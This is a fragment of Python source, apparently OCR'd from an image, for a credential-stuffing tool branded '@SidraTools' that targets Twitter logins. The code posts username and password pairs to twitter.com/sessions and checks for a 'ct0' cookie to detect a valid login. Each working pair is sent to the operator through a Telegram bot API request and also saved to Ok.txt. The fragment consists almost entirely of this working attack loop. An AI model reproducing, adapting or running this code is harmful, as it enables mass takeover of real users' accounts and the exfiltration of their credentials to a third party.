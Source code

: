 		   'ui_metrics': '{\"rf\":{\"ab4c9cdc2d5d097a5b2ccee53072aff6d2b5b13f71cef1a233ff378523d85df3\":1,\"a51091a0c1e2864360d289e822acd0aa011b3c4cabba8a9bb010341e5f31c2d2\":84,\"a8d0bb821f997487272cd2b3121307ff1e2e13576a153c3ba61aab86c3064650\":-1,\"aecae417e3f9939c1163cbe2bde001c0484c0aa326b8aa3d2143e3a5038a00f9\":84},\"s\":\"MwhiG0C4XblDIuWnq4rc5-Ua8dvIM0Z5pOdEjuEZhWsl90uNoC_UbskKKH7nds_Qdv8yCm9Np0hTMJEaLH8ngeOQc5G9TA0q__LH7_UyHq8ZpV2ZyoY7FLtB-1-Vcv6gKo40yLb4XslpzJwMsnkzFlB8YYFRhf6crKeuqMC-86h3xytWcTuX9Hvk7f5xBWleKfUBkUTzQTwfq4PFpzm2CCyVNWfs-dmsED7ofFV6fRZjsYoqYbvPn7XhWO1Ixf11Xn5njCWtMZOoOExZNkU-9CGJjW_ywDxzs6Q-VZdXGqqS7cjOzD5TdDhAbzCWScfhqXpFQKmWnxbdNEgQ871dhAAAAXiqazyE\"}',
		   'session[username_or_email]': user,
		   'session[password]': pw}
			
			try:
				req=requests.post(f'https://twitter.com/sessions',headers=headers,data=data)
				time.sleep(0.5)
				if ("ct0") in req.cookies:
					os.system('clear')
					print(Tk)
					ok+=1
					sk+=1
					print(A+"("+E+user+A+")"+H+" : "+A+"("+E+pw+A+")")
					print(A+"-----------------------------------")
					print("{}({}-{}){}  Test {} : {}30000".format(A,H,A,B,A,H))
					print("{}({}-{}){}  Good {} : {}{}".format(A,E,A,E,A,E,str(ok)))
					print("{}({}-{}){}  Baad {} : {}{}".format(A,K,A,K,A,K,str(cp)))
					print(A+"-----------------------------------")
					print(H+"Telegram  "+A+" : "+E+"@SidraTools")
					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(Sidraok))
					f=open('Ok.txt','a')
					f.write(Sidraok)
					f.close()
				else:
					os.system('clear')
					print(Tk)
					cp+=1
					sk+=1
					print(A+"("+E+user+A+")"+H+" : "+A+"("+E+pw+A+")")
					print(A+"-----------------------------------")
					print("{}({}-{}){}  Test {} : {}30000".format(A,H,A,B,A,H))
					print("{}({}-{}){}  Good {} : {}{}".format(A,E,A,E,A,E,str(ok)))
					print("{}({}-{}){}  Baad {} : {}{}".format(A,K,A,K,A,K,str(cp)))
					print(A+"-----------------------------------")
					print(H+"Telegram  "+A+" : "+E+"@SidraTools")
			except requests.exceptions.ConnectionError:
				print()
				
			except KeyboardInterrupt:
				exit(0)
Cod_SidraELEzz()


 
